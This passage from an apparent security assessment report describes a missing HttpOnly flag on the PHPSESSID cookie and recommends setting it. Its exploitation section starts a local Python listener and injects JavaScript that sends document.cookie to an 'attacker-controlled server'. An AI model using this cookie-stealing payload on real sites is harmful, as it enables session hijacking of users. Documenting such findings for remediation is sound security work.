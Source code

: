 
###### 2.2 Cookie Misconfiguration

###### Description

The PHPSESSID cookie lacks the `HttpOnly` flag, increasing the risk of session hijacking by allowing client-side scripts to access sensitive cookies.

Impact: Increases risk of client-side scripts accessing sensitive cookies, potentially leading to session hijacking.

Recommendation: Set the HttpOnly flag for session cookies.

<br>

###### Exploitation

Simulate Stealing the Cookie by inject a script into the page that sends the cookie to an attacker-controlled server.

1.  **Set Up a Listener**  
    Start a simple HTTP server to capture stolen cookies:

    ```bash
    python3 -m http.server 8081
    ```

    This will listen on port 8081.

2.  **Inject a Script**
    Inject the following JavaScript into the browser console:
    ```javascript
    <script>
    var img = new Image();
    img.src = "http://127.0.0.1:8081/?cookie=" + document.cookie;
    </script>

    ```
    This script sends the ```document.cookie``` value to the attacker-controlled server.

    ![](images/second_2_1.jpg)
